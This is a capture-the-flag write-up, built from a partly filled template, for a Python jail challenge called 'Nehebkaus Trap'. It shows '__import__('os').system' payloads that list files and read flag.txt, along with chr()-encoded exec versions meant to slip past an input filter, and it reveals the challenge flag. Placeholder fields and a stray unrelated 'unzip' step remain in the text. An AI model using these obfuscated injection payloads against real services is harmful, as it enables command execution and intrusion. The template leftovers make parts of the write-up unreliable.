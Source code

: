 # Challenge Name: Nehebkaus Trap

**Category:** Misc  
**Points:** [Point value]  
**Author:** [Your name]  
**Team:** [Your team name]  
**Completion Date:** [Date of comple7tion]

## Introduction

In search of the ancient relic, you go looking for the Pharaoh's tomb inside the pyramids. A giant granite block falls and blocks your exit, and the walls start closing in! You are trapped. Can you make it out alive and continue your quest?


## Tools Used

- telnet
- [Tool 2]
- [Tool 3]

## Initial Analysis

__import__('os').system('ls')
__import__('os').

## Detailed Methodology

### Step 1: Identified vulnerability

```file hw_debug.sal)```
unzip hw_debug.sal
### Step 2: Recon
Now using this vulnerability I try to find where the flag is located using ls.
```__import__('os').system('ls')```

```exec(chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)+chr(40)+chr(39)+chr(111)+chr(115)+chr(39)+chr(41)+chr(46)+chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109)+chr(40)+chr(39)+chr(108)+chr(115)+chr(39)+chr(41))```


### Step 3: Flag

Next I run cat flag.txt to read the flag 
```__import__('os').system('cat flag.txt')```

```exec(chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)+chr(40)+chr(39)+chr(111)+chr(115)+chr(39)+chr(41)+chr(46)+chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109)+chr(40)+chr(39)+chr(99)+chr(97)+chr(116)+chr(32)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)+chr(39)+chr(41))```

## Flag Capture

Step 1, 2, 3

<details>
<summary>Click to reveal the flag</summary>
HTB{y0u_d3f34t3d_th3_sn4k3_g0d!}                                             
